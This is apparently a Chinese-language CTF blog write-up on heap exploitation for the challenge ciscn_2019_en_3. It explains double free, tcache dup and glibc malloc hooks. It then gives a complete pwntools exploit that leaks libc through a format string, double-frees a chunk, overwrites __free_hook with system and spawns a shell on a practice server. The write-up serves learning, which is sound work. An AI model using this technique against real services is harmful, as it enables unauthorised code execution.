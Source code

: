 ```yaml
---
title: 几个堆入门
date: 2020-08-18 23:49:21
tags: 
- pwn
categories:
- CTF
---
```



# ciscn_2019_en_3

补充一下 double free的原理 ：堆上的某块内存被释放后，并没有将指向该堆块的指针清零，那么，我们就可以利用程序的其他部分对该内存进行再次的free，由于fast bin是LIFO队列的单向链表，对同一个元素free两次可以使其形成环状

![](https://i.loli.net/2020/08/18/r35RlIehYKpAFqU.png)

再对指针进行修改从而达到对任意地址写的效果


 tcache dup 和 double free类似，但少了很多检测 (至少该libc是这样的) 可以轻松 free两次



tcache全名*thread local caching*，它为每个线程创建一个缓存,对性能提高有显著的帮助

> `__malloc_hook`、`__realloc_hook`、`__free_hook`、`__memalign_hook` [四个全局函数hook指针](https://link.jianshu.com/?t=http://www.gnu.org/savannah-checkouts/gnu/libc/manual/html_node/Hooks-for-Malloc.html)。简单地说，就是 malloc 调用的是 __malloc_hook 指针指向的函数，所以 jemalloc 或者 tcmalloc 通过覆盖 __malloc_hook 使程序调用到它们自定义的malloc。

## 思路

- 泄露libc
- 利用tcache修改free hook

`printd_chk`可以用 %p 来泄露信息也可以利用利用read后面不补0的特性，输入8个字符把字沾满，来泄露栈上数据，得到libc

### exp

```python
from pwn import *
context( log_level = 'debug')
import sys
'''
elf = ELF('./ciscn_2019_en_3')
libc = elf.libc
'/glibc/2.28/64/lib/ld-2.28.so'
'''
_libc = './libc-2.27.so'
libc = ELF(_libc)

#p = remote("node3.buuoj.cn",26720)
from pwn import *
#p = process(['ld-2.27.so', "./ciscn_2019_en_3"], env={"LD_PRELOAD":_libc})
p = remote('node3.buuoj.cn', 26280)

def Debug(s):
    print(s)
    print('pid', proc.pidof(p))
    pause()
def s2b(s):
    if type(s) != type(b'1'):
        return bytes(s, encoding='utf-8')
    else:
        return s
def new(size,s):
	p.sendlineafter('choice:',b'1')
	p.sendlineafter('story:',str(size))

	p.sendlineafter('story:',s)
def delete(s):
	p.sendlineafter('choice:',b'4')
	p.recvuntil('index:')
	p.sendline(s)

Debug("start")

p.recvuntil('name?')
p.sendline('%p%p%p')#name
p.recvuntil('0x200x')
re = (p.recv(12))
a = int(re,16)
print('recv',hex(a))

#0xf7260

libc_base = a-0x110081 # 用了一下午错误的libc，懒得调了。。。直接相减算偏移了。。。
print('libc_base',hex(libc_base))
free_hook = libc_base + libc.sym['__free_hook']
sys_add = libc_base + libc.sym['system']
print("free_hook",hex(free_hook))
print("sys_add_libc", hex(libc.sym['system']))
print("system:",hex(sys_add))
p.sendline('1234') # id

new(0x10,b'1234') # 0
new(0x10,b'/bin/sh\x00') # 1
Debug('new_heap')
delete(b'0')
delete(b'0') # double free形成环

Debug('free_hook-->debug')

new(0x10,p64(free_hook))
new(0x10,'aa')
new(0x10,p64(sys_add)) # 向free hook中写入system
Debug('del')
delete(b'1')
Debug('sh')
p.interactive()

'''
print(libc.sym['read'])
Debug('1')

0x7f5224771eb3

'''

```

### free hook覆盖后的情况

![](https://i.loli.net/2020/08/18/LCKnuZ25td7OUNm.png)



![](https://i.loli.net/2020/08/18/mCKeAVxw5HBDJg4.png)

### 调用free hook

![](https://i.loli.net/2020/08/18/R6uC1cMQSbLgw7G.png)
